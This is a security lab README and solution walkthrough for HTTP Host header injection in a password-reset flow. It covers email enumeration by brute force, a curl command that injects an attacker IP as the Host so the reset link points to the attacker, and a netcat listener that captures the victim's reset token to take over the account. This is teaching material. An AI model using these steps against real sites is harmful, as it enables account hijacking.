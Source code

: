 # Goal

The aim of the lab is to exploit the misconfiguration of some web servers that allow an attacker to send a valid reset password email containing a malicious link.

# Readme

The lab is divided into three phases:

1. User Discovery
    
    In this phase you will have to discover a valid user registered to the web server in order to start the recover password procedure using that account.
    
2. Header Injection
    
    You will intercept and edit the recover password request in order to inject the attacker URL; doing so will allow you to send a poisonous email to the victim and if the victim will click on the reset password link you will obtain the unique token identifying the user to reset the password.
    
3. Password Reset
    
    With token you get from the previous step you will be able to change the password of the victim account and gain access to it.
    

If you want to try to solve the lab by yourself there you got some useful informations:

- You can open a virtual browser on the attacker container by reaching [`http://localhost:3000`](http://localhost:3000)
- You can open a shell on the attacker container
- The web server is available at [`http://webserver`](http://webserver) and is only accessible within the intranet, you can use the attacker browser to reach it
- The victim mail client is available at [`http://victim_mail`](http://victim_mail) and is only accessible within the intranet, you can use the attacker browser to reach it

# Solution

The solution will follow the phases described in the documentation.

### User Discovery

This phase consist in discovering a valid user registered to the web server in order to start the recover password procedure using that account.

Using the web server app that is accessible at `http://webserver` you may notice that if you try to login inserting a non existing user, the server will show you an error message saying: “The inserted email do not exist”.

You can use that vulnerability to find a valid user registered to the web server.

The approach that will be used is bruteforcing with a dictionary obtained by sending a lot of POST request with different user email versus the server until you found a valid email. 

You can accomplish this by using a simple python script; luckily for you we already provide a script for doing so, connect with a shell to the attacker machine and reach the `/tools` folder

```bash
cd /tools
```

In it you will find two files:

- `email_dictionary`: a basic dictionary that will save you hours and hours
- `find_email.py`: the script

You can have a detailed look of what the script do and require using:

```bash
python3 find_email.py --help
```

![Tutorial_1.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_1.png?raw=true)

Follow the command to discover a valid user in the lab:

```bash
python3 find_email.py \
--url http://webserver \
--form email \
--message "The inserted email do not exist" \
--dictionary email_dictionary
```

The above command return the `admin123@victimmail.it` email address that we will use as victim.

![Tutorial_2.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_2.png?raw=true)

### Header Injection

In the second phase you will use a web server misconfiguration that allow an attacker to change the “host” parameter contained in header options. The web server during the reset password procedure, will create a link getting the domain from the host field presented in the POST request; normally this field report the server domain (http://webserver) but if an attacker send a post request with a modified host parameter (and the web server do not implement the proper checks) he can send authentic reset email with an arbitrary reset password link.

In order to start the attack you will first need to intercept and block the reset password request;  in order to do that, connect on your browser to [`http://localhost:3000`](http://attacker:3000) to display the attacker container browser. Now with attacker’s browser visit reset password page (navigate to `http://webserver` and press on “Forgot Password”); right clicking wherever in the reset password page will open you a window; select the “Inspect (Q)” and navigate to the “Network“ tab in order to look at all the requests sent from the browser (you may need to refresh the page).

![Tutorial_3.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_3.png?raw=true)

An important tool that firefox browser gives you is the “Block URL” functionality that ask you to specify an IP address to block all requests coming from and to the specified IP allowing you to view and edit all of them. Just insert [`http://webserver`](http://webserver) URL and enable the blocking option:

![Tutorial_4.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_4.png?raw=true)

Now you’re almost ready to launch the attack, in the UI of the page fill the email address with the one that you have obtained in the first phase and click send button.

Firefox will block the sent request and will give you the possibility to copy the query as cURL  (right click on it → Copy Value → Copy as cURL).

![Tutorial_5.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_5.png?raw=true)

Now using a text editor of you choice edit the copied cURL text as follow. 

You need to add a header host filed; you can add any header row by using the `-H` option so in order to inject the malicious host you need to add `-H 'Host: 192.168.1.13:12345'` to the request. The full modified cURL request is then:

```bash
curl -H 'Host: 192.168.1.13:12345' \
'http://webserver/resetpassword?' \
-X POST \
-H 'Content-Type: application/x-www-form-urlencoded' \
--data-raw 'email=admin123@victimmail.it'
```

<aside>
💡 Note that there could be more header option in the original post request, those are not strictly necessary and has been removed in the provided modified cURL.

</aside>

Executing the above command will send a reset mail sent from web server to the admin123@victimmail.it victim email; in the email there will be a malicious link within the reset password button.

Lastly, you have added the “Host:” parameter inserting attackers IP and a custom `12345` port, but in order to receive the token, you need to launch netcat listening on the specified `12345` port using the following in an attacker shell:

```bash
nc -lvnp 12345
```

![Tutorial_6.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_6.png?raw=true)

### Password Reset

You are now going to impersonate the victim that open webmail and click on the reset password link, to do that, open the victim webmail directly from the attacker browser (of course this makes no sense at all but makes the lab easy to use) at `http://victim_mail` 

In the victim mail you will be able to see all the email sent from the web server, if you correctly execute the above phases you should be able to see an email and open it:

![Tutorial_7.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_7.png?raw=true)

As you can see in the mail there is a button with a link, press that button.

Coming back to the attacker shell where you launch netcat you will see the following:

![Tutorial_8.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_8.png?raw=true)

You successfully hijack the reset password request to your machine instead of sending it to the web server; as you can see you obtained the token that allow the web server to identify the user that is requesting the password reset; you can now use it to make the web server believe that you are the victim; just copy the entire URL you see in the request and paste it in the web browser;

![Tutorial_9.png](https://github.com/marcotammaro/HTTP_Header_Injection/blob/main/images//Tutorial_9.png?raw=true)

Press enter and the web server will allow you to set a new password for the admin123 account.

Note: in order to be able to paste the url in the attacker container browser you may need to use the KASM VNC clipboard utility that is showed as a panel on the left side of the attacker browser.

Create than a password and use it to login with the admin123@victimmail.it email to see if the attack has been successful.

You got it! Victim has been hacked!